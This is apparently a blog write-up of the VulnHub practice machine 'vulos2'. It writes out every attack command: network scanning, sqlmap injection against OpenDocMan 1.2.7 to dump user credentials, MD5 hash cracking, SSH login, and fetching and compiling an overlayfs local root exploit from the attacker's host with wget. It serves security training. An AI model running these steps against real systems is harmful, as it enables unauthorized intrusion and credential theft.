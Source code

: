 ```yaml
---
layout: post
title: "vulos2"
date: 2016-07-20 13:36:54 -0500
comments: true
categories: [vulhub, opendocman]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* sqlmap
* hash-identifier 


###Vulnerability:
* [OpenDocMan 1.2.7 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/32075/)
* [Linux Kernel 3.13.0 < 3.19 'overlayfs' Local Root Shell](https://www.exploit-db.com/exploits/37293/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/vulos2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.104 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.104 -p-`


{% img  /images/blog/vulhub/vulos2/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 6667 are opening.

use wfuzz to scan. Nothing interesting.

use Niko to scan. Same.


Check the webpage, looks like a link may be useful.

{% img  /images/blog/vulhub/vulos2/Selection_003.png   [title manually exploit [alt text]] %}

Double click it.

{% img  /images/blog/vulhub/vulos2/Selection_004.png   [title manually exploit [alt text]] %}

Exam the links. In `Document`, I found this:

{% img  /images/blog/vulhub/vulos2/Selection_005.png   [title manually exploit [alt text]] %}

Looks like path `/jabcd0cs/` is available.


go to  `http://192.168.56.104/jabcd0cs/`, I found the app is OpenDocMan v1.2.7. 

{% img  /images/blog/vulhub/vulos2/Selection_006.png   [title manually exploit [alt text]] %}

`searchsploit opendocman`

{% img  /images/blog/vulhub/vulos2/Selection_007.png   [title manually exploit [alt text]] %}

got the exploit. Try the sql injection vulnerability:

{% img  /images/blog/vulhub/vulos2/Selection_008.png   [title manually exploit [alt text]] %}

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level=5 --risk=3
```

{% img  /images/blog/vulhub/vulos2/Selection_009.png   [title manually exploit [alt text]] %}

Now I know the database type is MySQL.

Next try to dump all table names

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --tables --dbms=mysql
```


{% img  /images/blog/vulhub/vulos2/Selection_010.png   [title manually exploit [alt text]] %}

looks like `odm_user` is the table I want to take a look at.

now dump columns from table `odm_user`


`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -T odm_user  --columns --dbms=mysql`


{% img  /images/blog/vulhub/vulos2/Selection_011.png   [title manually exploit [alt text]] %}

looks like `username` and `password`

now time to dump all content from `username` and `password`,

`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -C username,password --dump --dbms=mysql`

{% img  /images/blog/vulhub/vulos2/Selection_012.png   [title manually exploit [alt text]] %}

use hash-identifier to detect hash type

{% img  /images/blog/vulhub/vulos2/Selection_013.png   [title manually exploit [alt text]] %}

looks like they are MD5.

use hashcat to crack it

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

{% img  /images/blog/vulhub/vulos2/Selection_014.png   [title manually exploit [alt text]] %}

only guest's password is cracked.

Find a very good website to crack MD5 online http://md5cracker.org/, get the cracked password `webmin1980` for user webmin, and login:

{% img  /images/blog/vulhub/vulos2/Selection_015.png   [title manually exploit [alt text]] %}

not very helpful.

Try to ssh to the box using webmin

{% img  /images/blog/vulhub/vulos2/Selection_016.png   [title manually exploit [alt text]] %}


get the bash:

`python -c 'import pty; pty.spawn("/bin/bash")'`

first check the os version

`uname -a`

{% img  /images/blog/vulhub/vulos2/Selection_017.png   [title manually exploit [alt text]] %}


`searchsploit 3.13.0`

{% img  /images/blog/vulhub/vulos2/Selection_018.png   [title manually exploit [alt text]] %}

try this exploit

in Kali:

```
cp /usr/share/exploitdb/platforms/linux/local/37292.c /var/www/html/.
service apache2 restart

```

in target:

```
wget http://192.168.56.101/37292.c .
gcc 37292.c -o 37292
./37292
```

{% img  /images/blog/vulhub/vulos2/Selection_019.png   [title manually exploit [alt text]] %}

DONE







